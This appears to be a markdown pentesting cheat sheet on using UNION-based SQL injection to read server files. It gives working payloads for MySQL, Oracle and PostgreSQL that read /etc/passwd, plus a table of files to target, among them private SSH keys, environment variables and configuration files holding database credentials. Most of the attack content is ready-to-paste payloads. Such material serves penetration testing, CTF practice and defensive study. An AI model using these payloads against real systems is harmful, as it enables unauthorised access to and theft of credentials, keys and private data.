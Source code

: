 #### Prerequisites
- The SQL injection vulnerability must allow UNION injection.
- The database must support file reading functions (e.g., `LOAD_FILE()` in MySQL).
 - The injected query’s result must be reflected in the webpage (the injected column should be visible).

## Execution
- **Determine number and type of columns**
    - First, find out how many columns the original query has and which ones reflect output, using standard techniques (ORDER BY, UNION SELECT with NULLs or values).
    - Ensure the target column can display text.
    
- **Basic payload to read a file in MySQL:**
```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')-- -
```
- **Advanced example using CONCAT to control output**
If `LOAD_FILE()` gives an error or is unsupported, you can try concatenation functions to format the output:

```sql
' UNION SELECT NULL, CONCAT('FILE CONTENT:', LOAD_FILE('/etc/passwd'))-- -
```

- **Alternatives for other database engines**

- **Oracle:** No direct `LOAD_FILE()`, but packages like `UTL_FILE` can be used with required privileges.
```sql
' UNION SELECT utl_file.get_line(utl_file.fopen('DIRECTORY','filename','r'), 1) FROM dual-- -
```
- **PostgreSQL:** Functions like `pg_read_file()` can be used if permitted.

```sql
' UNION SELECT NULL, pg_read_file('/etc/passwd')-- -
```

## Common Files to Target for LFI via SQLi
| OS          | File                                          | Purpose                                                  |
| ----------- | --------------------------------------------- | -------------------------------------------------------- |
| **Linux**   | `/etc/passwd`                                 | List of local users                                      |
|             | `/etc/hostname`                               | Server hostname                                          |
|             | `/proc/self/environ`                          | Environment variables (can reveal `PATH`, secrets, etc.) |
|             | `/var/www/html/config.php`                    | App config files (may contain DB credentials)            |
|             | `/root/.ssh/id_rsa`                           | Private SSH keys (if readable)                           |
|             | `/etc/mysql/my.cnf`                           | MySQL config (may expose passwords or file paths)        |
| **Windows** | `C:\\boot.ini`                                | Boot configuration                                       |
|             | `C:\\Windows\\win.ini`                        | System info                                              |
|             | `C:\\xampp\\mysql\\bin\\my.ini`               | XAMPP MySQL config                                       |
|             | `C:\\Users\\Administrator\\Desktop\\flag.txt` | CTF-style target file                                    |
